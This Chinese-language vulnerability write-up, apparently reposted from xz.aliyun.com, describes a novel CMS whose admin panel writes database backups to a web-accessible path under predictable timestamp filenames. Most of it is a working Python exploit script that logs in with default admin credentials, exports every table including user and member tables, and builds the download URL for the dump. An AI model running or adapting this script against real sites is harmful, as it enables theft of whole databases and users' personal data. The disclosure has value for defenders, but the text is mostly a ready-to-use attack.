


#### 漏洞详情： ####
后台可以直接备份数据库，备份后为.sql.gz文件(可以在设置里更改是否压缩)，文件名为time函数生成的时间戳，可直接爆破进行下载，这里先附上exp

    
    # !/usr/bin/python3
    # -*- coding:utf-8 -*-
    # author: Forthrglory
    import requests
    import time
    
    def getDatabase(url,username, password):
    session = requests.session()
    
    u = 'http://%s/admin/index/login.html' % (url)
    head = {
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'
    }
    data = {
    'username': username,
    'password': password,
    'code': 1
    }
    session.post(u, data, headers = head)
    
    u = 'http://%s/admin/database/export.html' % (url)
    data = {
    'layTableCheckbox':'on',
    'tables[0]':'ky_ad',
    'tables[1]':'ky_addons',
    'tables[2]':'ky_bookshelf',
    'tables[3]':'ky_category',
    'tables[4]':'ky_collect',
    'tables[5]':'ky_comment',
    'tables[6]':'ky_config',
    'tables[7]':'ky_crontab',
    'tables[8]':'ky_link',
    'tables[9]':'ky_member',
    'tables[10]':'ky_menu',
    'tables[11]':'ky_news',
    'tables[12]':'ky_novel',
    'tables[13]':'ky_novel_chapter',
    'tables[14]':'ky_route',
    'tables[15]':'ky_slider',
    'tables[16]':'ky_template',
    'tables[17]':'ky_user',
    'tables[18]':'ky_user_menu'
    }
    t = time.strftime("%Y%m%d-%H%M%S", time.localtime())
    
    session.post(u, data = data)
    
    for i in range(0, 19):
    u2 = 'http://%s/admin/database/export.html?id=%s&start=0' % (url, str(i))
    session.get(u2)
    
    t = 'http://' + url + '/public/database/' + t + '-1.sql.gz'
    return t
    
    if __name__ == '__main__':
    u = '127.0.0.1'
    username = 'admin'
    password = 'admin'
    t = getDatabase(u, username, password)
    print(t)

运行代码，得到路径(默认生成路径为/public/database/，可在设置中修改)

直接访问下载

可以看到所有数据库信息全在了

https://xz.aliyun.com/t/7486